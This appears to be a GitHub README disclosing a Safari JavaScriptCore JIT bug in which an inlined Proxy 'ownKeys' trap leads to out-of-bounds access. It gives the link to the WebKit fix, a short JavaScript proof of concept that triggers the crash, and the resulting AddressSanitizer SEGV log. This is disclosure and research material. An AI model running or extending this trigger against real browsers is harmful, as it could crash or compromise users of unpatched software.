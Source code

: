 # first bug

CVE-2019-XXXX: Apple Safari: JSC: JIT: JSPropertyNameEnumerator is using cached structure ids,<br>
when 'ownKeys' is inlined with a proxy causing out of bounds access.<br>

***a brief explanation of the bug:***

this was fixed here: <br>
https://github.com/WebKit/webkit/commit/80025fef96cb81fc3650c4da2230c624ac253937 <br>

poc triggers: <br>


```javascript

var o = {a:0};

function opt() {
            
    let p = new Proxy({},{ownKeys:(a)=>{return a;}});
    o.__proto__ = p;
    for (let x in o) {}
}

for (let t = 0; t <350;t++){
        opt();
}


```

<br>

***would produce the following:***

<br>

```c

    ==29150==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x41f8be002da6 bp 0x7ffeee49dc60 sp 0x7ffeee49db90 T0)
    ==29150==The signal is caused by a READ memory access.
    ==29150==Hint: address points to the zero page.
        #0 0x41f8be002da5  (<unknown module>)
        #1 0x104cae062 in llint_entry (JavaScriptCore:x86_64+0x32c5062)
        #2 0x104c9acb1 in vmEntryToJavaScript (JavaScriptCore:x86_64+0x32b1cb1)
        #3 0x104934078 in JSC::JITCode::execute(JSC::VM*, JSC::ProtoCallFrame*) JITCodeInlines.h:38
        #4 0x10493198c in JSC::Interpreter::executeProgram(JSC::SourceCode const&, JSC::ExecState*, JSC::JSObject*) Interpreter.cpp:845
        #5 0x10524f974 in JSC::evaluate(JSC::ExecState*, JSC::SourceCode const&, JSC::JSValue, WTF::NakedPtr<JSC::Exception>&) Completion.cpp:141
        #6 0x10183607f in runWithOptions(GlobalObject*, CommandLine&, bool&) jsc.cpp:2632
        #7 0x1017c5f43 in jscmain(int, char**)::$_4::operator()(JSC::VM&, GlobalObject*, bool&) const jsc.cpp:3103
        #8 0x10176eb75 in int runJSC<jscmain(int, char**)::$_4>(CommandLine const&, bool, jscmain(int, char**)::$_4 const&) jsc.cpp:2961
        #9 0x10176af6d in jscmain(int, char**) jsc.cpp:3096
        #10 0x10176ad2d in main jsc.cpp:2456
        #11 0x7fff599ba3d4 in start (libdyld.dylib:x86_64+0x163d4)

    ==29150==Register values:
        rax = 0x0000000000000000  rbx = 0x00007ffeee49dea0  rcx = 0x27b165aebef800eb  rdx = 0x00007ffeee49dc60  
        rdi = 0x0000000000000000  rsi = 0x0000000000000000  rbp = 0x00007ffeee49dc60  rsp = 0x00007ffeee49db90  
        r8 = 0xf2f8f204f1f1f1f1   r9 = 0x00001fffddc93a70  r10 = 0x00000001076d3998  r11 = 0xffff000000000000  
```